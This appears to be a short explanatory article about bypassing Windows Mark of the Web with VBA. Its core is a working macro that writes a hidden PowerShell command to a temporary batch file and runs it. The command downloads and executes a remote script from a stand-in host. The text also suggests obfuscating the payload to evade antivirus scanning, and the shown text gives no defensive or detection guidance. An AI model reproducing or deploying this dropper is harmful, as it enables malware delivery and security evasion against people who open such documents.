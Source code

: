 **Encapsulation to Avoid Mark of the Web (MOTW) Using VBA**

The Mark of the Web (MOTW) is a security feature used by Windows to flag files downloaded from the internet as potentially harmful. When a file carries this flag, security features like Protected View in Microsoft Office are triggered, and antivirus tools, like Windows Defender, may perform additional scans. In some cases, attackers attempt to bypass MOTW to execute code, like VBA macros, without raising such security alerts.

One technique attackers use involves encapsulating malicious VBA code in such a way that it avoids triggering security mechanisms associated with the MOTW. This is often achieved by embedding the payload in trusted file formats, using obfuscation or creating VBA code dynamically within a trusted document.

### Example of Encapsulation Technique to Avoid MOTW

Here is a simplified example demonstrating how VBA could potentially be used to avoid MOTW triggers by dynamically generating and executing code.

#### 1. VBA Encapsulation Example

```vba
Sub EncapsulatedMacro()
    ' Store obfuscated or encoded payload in a variable
    Dim payload As String
    payload = "cmd /c powershell.exe -nop -w hidden -ep bypass -c ""iex(New-Object Net.WebClient).DownloadString('http://malicious-site.com/payload.ps1')"""

    ' Create the macro dynamically and execute
    Dim fso As Object
    Dim tempFile As Object
    Dim tempPath As String

    ' Create a temporary .bat file to execute the payload
    tempPath = Environ("TEMP") & "\run_payload.bat"
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set tempFile = fso.CreateTextFile(tempPath, True)

    ' Write the payload to the .bat file
    tempFile.WriteLine payload
    tempFile.Close

    ' Execute the .bat file
    Shell tempPath, vbHide
End Sub
```

### How This Encapsulation Works:

- **Payload Encapsulation**: The actual malicious payload (in this case, a PowerShell command to download and execute a script) is stored in a VBA string variable.
  
- **Obfuscation**: The payload can be obfuscated or encoded to avoid static detection by antivirus tools, and only decoded or reconstructed during execution.
